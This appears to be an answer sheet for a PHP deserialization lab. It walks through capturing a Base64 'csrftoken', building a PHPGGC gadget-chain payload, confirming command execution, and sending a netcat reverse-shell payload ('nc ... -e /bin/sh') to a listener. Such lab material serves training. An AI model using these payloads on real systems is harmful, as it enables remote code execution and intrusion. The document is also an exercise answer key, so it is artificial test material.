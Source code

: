 # PHP Deserialization Answersheet

**Step 1:** Navigate to "PHP Website:16664" link.<br />
<kbd> <img src="1.png" /> </kbd>
<br /> <br />


**Step 2:** Provide the necessary information and click on "submit" button.<br />
<kbd> <img src="2.png" /> </kbd>
<br /> <br />


**Step 3:** Capture the request in Burp Suite proxy and observe that the "csrftoken" parameter contains Base64 data.<br />
<kbd> <img src="3.png" /> </kbd>
<br /> <br />


**Step 4:** Decode the value using Base64, and identify the serialized data.<br />
<kbd> <img src="4.png" /> </kbd>
<br /> <br />


**Step 5:** Send request captured in **Step 3** to the Burp Repeater.<br />
<kbd> <img src="5.png" /> </kbd>
<br /> <br />


**Step 6:** Download the PHPGGC utility from the following location to generate the serialised payload using the following command and capture the generated payload.<br />
PHPGGC Location: https://github.com/ambionics/phpggc
```
./phpggc -b slim/rce1 system id
```
<kbd> <img src="6.png" /> </kbd>
<br /> <br />


**Step 7:** Provide the payload generated in **Step 6** in parameter "csrftoken" in request captured in **Step 5** and send the request. Observe that the server responds with the output of command "id". <br />
<kbd> <img src="7.png" /> </kbd>
<br /> <br />


**Step 8:** Start the listener using the following command.<br />
```
nc -nlvp 6666
```
<kbd> <img src="8.png" /> </kbd>
<br /> <br />


**Step 9:** Capture the system IP Address and use that to generate the payload of reverse shell using the following command and capture the payload.<br />
```
./phpggc -b slim/rce1 "nc 192.168.29.88 6666 -e /bin/sh"
```
<kbd> <img src="9.png" /> </kbd>
<br /> <br />


**Step 10:** Provide the payload captured in **Step 9** in the "csrftoken" parameter in **Step 5** and click on "send" button. <br />
<kbd> <img src="10.png" /> </kbd>
<br /> <br />

**Step 11:** A connection will be received on reverse shell. Extract the system information using whoami, uname -a command.<br />
<kbd> <img src="11.png" /> </kbd>
<br /> <br />